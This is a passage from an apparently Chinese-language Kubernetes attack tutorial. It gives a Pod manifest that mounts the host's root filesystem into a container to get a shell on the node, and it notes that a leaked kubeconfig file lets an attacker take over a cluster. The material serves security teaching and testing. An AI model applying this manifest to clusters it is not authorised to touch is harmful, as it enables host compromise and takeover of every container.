 [![1640362696372.png](assets/1698894658-fd4fa3d3aa817d72ffae7e6b6b8d5a5b.png)](https://storage.tttang.com/media/attachment/2021/12/26/696ff0dd-e014-4abc-b777-8c0f167edf86.png)  
获取访问后直接创建特权容器即可 getshell

```plain
apiVersion: v1
kind: Pod
metadata:
  name: nginx
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /tmp
      name: volume
  volumes:
  - name: volume
    hostPath:
      path: /
```

##### [K8s Config 文件泄露](#toc_k8s-config)

如果攻击者通过 webshell、GitHub 等特定方式拿到该 K8s 配置的 Config 文件，就可以用该文件操作集群，从而接管所有容器。
